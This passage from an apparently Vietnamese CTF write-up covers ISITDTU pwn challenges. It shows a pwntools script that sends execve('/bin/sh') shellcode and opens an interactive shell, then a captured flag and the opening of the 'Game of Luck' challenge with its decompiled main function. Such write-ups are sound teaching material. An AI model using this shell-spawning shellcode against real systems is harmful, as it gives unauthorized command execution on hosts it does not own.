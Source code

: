 ```python
payload2 = asm("""
    nop
    nop
    mov rax, 0x68732f6e69622f
    push rax
    mov rdi, rsp 
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 0x3b
    syscall
""")
p.send(payload2)

p.interactive() 
```

Flag là `ISITDTU{95acf3a6b3e1afc243fbad70fbd60a6be00541c62c6d651d1c10179b41113bda}`

## pwn/Game of Luck

{{< admonition note "Challenge Information" >}}
* 43 solves / 100 pts
* **Given files:** [chal](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/ERNFcvJ6e1hJpa1dCZ_7Vi0BuGrWTSPjcJKarUz4mA63_Q?e=xatAA3)
* **Description:** `nc 152.69.210.130 2004`
{{< /admonition >}}

**Solution** 

### Overview & Find bug

Chương trình chính sau khi được rename lại như sau 
```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  init();
  welcome();
  get_random_number();
  game();
}
```

trong đó hàm `game` là hàm xử lý chính 
